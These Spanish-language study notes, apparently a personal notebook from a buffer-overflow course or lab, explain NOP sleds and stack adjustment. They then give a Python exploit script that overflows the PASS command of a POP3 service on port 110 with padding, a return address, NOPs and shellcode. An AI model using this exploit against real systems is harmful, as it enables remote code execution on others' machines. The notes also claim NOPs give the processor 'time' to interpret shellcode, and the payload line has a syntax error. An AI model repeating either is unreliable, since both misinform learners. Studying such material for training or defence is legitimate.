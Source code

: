 ![[Pasted image 20231020095833.png]]
______________________________________
**Uso de NOPs, desplazamientos en pila e interpretación del Shellcode para lograr RCE**
_______________________
Una vez que se ha encontrado la dirección del opcode que aplica el salto al registro **ESP**, es posible que el shellcode no sea interpretado correctamente debido a que su ejecución puede requerir más tiempo del que el procesador tiene disponible antes de continuar con la siguiente instrucción del programa.

Para solucionar este problema, se suelen utilizar técnicas como la introducción de **NOPS** (**instrucciones de no operación**) antes del shellcode en la pila. Los NOPS no realizan ninguna operación, pero permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.

Otra técnica que se suele utilizar es el desplazamiento en la pila, que implica modificar el registro ESP para reservar espacio adicional para el shellcode y permitir que se ejecute sin problemas. Por ejemplo, se puede utilizar la instrucción “**sub esp, 0x10**” para desplazar el registro ESP **16 bytes** hacia abajo en la pila y reservar espacio adicional para el shellcode.

Ya con esto, ¡habríamos conseguido vulnerar el sistema a través del Buffer Overflow!
___________________________________________________

Asignar un espacio de descanso al programa con **NOPs**

modificamos el script nuevamente y le agregamos 16 **NOPs** (\x90) antes de ejecutar el **shellcode** 

```python
#!/usr/bin/python3

from struct import pack
import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L",<direccion_modulo>)
shellcode = (b<shellcode>)

payload = before_eip + eip + b"\x90"*16 shellcode

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```

